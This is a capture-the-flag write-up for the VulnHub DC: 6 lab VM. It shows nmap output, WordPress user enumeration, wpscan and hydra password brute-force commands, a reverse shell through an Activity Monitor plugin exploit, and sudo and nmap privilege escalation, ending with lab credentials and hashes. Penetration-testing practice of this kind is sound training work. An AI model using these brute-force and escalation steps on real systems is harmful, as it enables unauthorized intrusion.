


# [[VulnHub] DC: 6](https://www.vulnhub.com/entry/dc-6,315/)

**Date**: 10/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_activitymonitor`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap)  

## Overview
This is a writeup for VulnHub VM [DC: 6](https://www.vulnhub.com/entry/dc-6,315/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Tue Sep 10 18:09:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/dc6/results/wordy/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/dc6/results/wordy/scans/xml/_quick_tcp_nmap.xml wordy
Nmap scan report for wordy (192.168.92.170)
Host is up, received arp-response (0.00024s latency).
Scanned at 2019-09-10 18:09:51 PDT for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDHiBBFUtpw1T9DZyoXpMp3kg25/RgmGZRFFmZuTfV9SJPxJCvrQXdM6P5GfFLFcgnLlcOBhBbv33N9HvWisycRypK0uLK26bntqfyTAFCdMXcud7fKNgRBxJdN8onwl4Hly3wzRBJxFWqTdD1RF8viYH4TYIs5+WLpN7KihosjpbwzPpOnbDQZUw7GdHvosV7dFI6IMcF57R4G5LzSgV66GACNGxRn72ypwfOMaVbsoxzCHQCJBvd8ULL0YeAFtNeHoyJ8tL3dZlu71Wt9ePYf7ZreO+en701iDqL6T/iyt3wwTDl7NwpZGj5+GrlyfRSFoNyHqdd0xjPmXyoHynp
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE+jke+7np4l7EWf0wgySSp3MtYFcI6klVOWm7tDjas8eDxc9jYOhR4uK7koa2CkQPDd18XJSt0yNAGQFBb7wzI=
|   256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII1mnJveN8yJySEDhG8wjYqtSKmcYNdX5EVqzxYb92dP
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Wordy &#8211; Just another WordPress site
MAC Address: 00:0C:29:F1:97:73 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 10 18:09:59 2019 -- 1 IP address (1 host up) scanned in 8.96 seconds

```

2\. We start with `80/tcp` and are presented with a `Wordpress` installation. We run `wpscan` to enumerate users and find 5 hits:  
``` {.python .numberLines}
admin, graham, mark, sarah and jens

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp  |  ssh   |  OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.25 ((Debian))
```
#### Users
``` {.python .numberLines}
ssh: graham, mark, sarah, jens
wordpress: admin, graham, mark, sarah, jens
```

\newpage
## Phase #2: Exploitation
1\. The VulnHub page for this VM gave a clue to create a custom wordlist from `rockyou.txt` to save time on bruteforce. This was a good starting point:  
``` {.python .numberLines}
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt

```

2\. We run a Wordpress password bruteforce scan and find a hit for user `mark`:  
``` {.python .numberLines}
wpscan --url http://wordy/ --wordlist ./passwords.txt → helpdesk01

```

  

3\. Running a Wordpress password bruteforce scan using `hydra` gave similar results:  
``` {.python .numberLines}
hydra -l mark -P passwords.txt 192.168.92.170 http-post-form "/wp-login.php:log=mark&pwd=^PASS^:ERROR" → helpdesk01

```

  

4\. We use these credentials and login as user `mark`:  

  

5\. This installation has `Activity Monitor` plugin installed. There's an exploit for this plugin on ExploitDB:  

  

6\. We update the exploit with right IPs and chnage the `nc` commandline. This file when opened shows a HTML button which when clicked will execute the command and return a reverse shell:  

  

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@dc-6> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-6>  
www-data@dc-6> uname
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
www-data@dc-6>  
www-data@dc-6> ifconfig
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
  link/ether 00:0c:29:f1:97:73 brd ff:ff:ff:ff:ff:ff
  inet 192.168.92.170/24 brd 192.168.92.255 scope global eth0
     valid_lft forever preferred_lft forever
  inet6 fe80::20c:29ff:fef1:9773/64 scope link
     valid_lft forever preferred_lft forever
www-data@dc-6>  
www-data@dc-6> users
graham
mark
sarah
jens
```

\newpage
## Phase #3: Privilege Escalation
1\. Exploring the filesystem, we come across `/var/www/html/wp-config.php` file that has MySQL credentials in it:  
``` {.python .numberLines}
wpdbuser/meErKatZ

```

  

2\. We also extract hashes for all Wordpress users from `wp_users` table:  

  

3\. Exploring filesystem further, we find credentials for user `graham` within the `/home/mark/stuff/things-to-do.txt` file:  
``` {.python .numberLines}
graham/GSo7isUM1D4
```

  

4\. We `ssh` into the system as user `graham` to gain interactive access:  

  

5\. User `graham` can edit and execute the `/home/jens/backups.sh` as user `jens`. We modify the script to execute a shell and gain interactive access as user `jens`:  

  

6\. User `jens` can execute `/usr/bin/nmap` as `root`. We use this to gain elevated privileges and read the flag:  

  

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$kdMFceEg$pk9h93tdD7IomhE7L0Y396HO6fxSM.XDh9dgeBhKpdZlM/WYxCZe7yPRNHfZ5FvNRuILVp2NOsqNmgjoS........................
graham:$6$WF7GkVxM$MOL.cXLpG6UTO0M4exCUFwOEiUhW6bwQa.Frg9CerQbTp.EW4QTzEAuio26Aylv.YP0JPAan10tsUFv6k........................
mark:$6$//1vISW6$9pl2v8Jg0mNE7E2mgTQlTwZ1zcaepnDyYE4lIPJDdX7ipnxm/muPD7DraEm3z0jqDe5iH/Em2i6YXJpQD........................
sarah:$6$DoSO7Ycr$2GtM5.8Lfx9Sw8X1fDMF.7zWDoVoy1892nyp0iFsqh5CfmtEROtxmejvQxu0N/8D7X8PQAGKYGl.gUb6/........................
jens:$6$JWiFWXb8$cGQi07IUqln/uLLVmmrU9VLg7apOH9IlxoyndELCGjLenxfAaVec5Gjaw2DA0QHRwS9hTB5cI2sg/Wk1O........................
```
### Credentials
``` {.python .numberLines}
mysql: wpdbuser/meEr....
ssh: graham/GSo7isU....
wordpress: mark/helpdes...
```

## References
[+] <https://www.vulnhub.com/entry/dc-6,315/>  
[+] <https://diaryof0x41.wordpress.com/2019/05/29/vulnhub-dc-6-walkthrough/>  
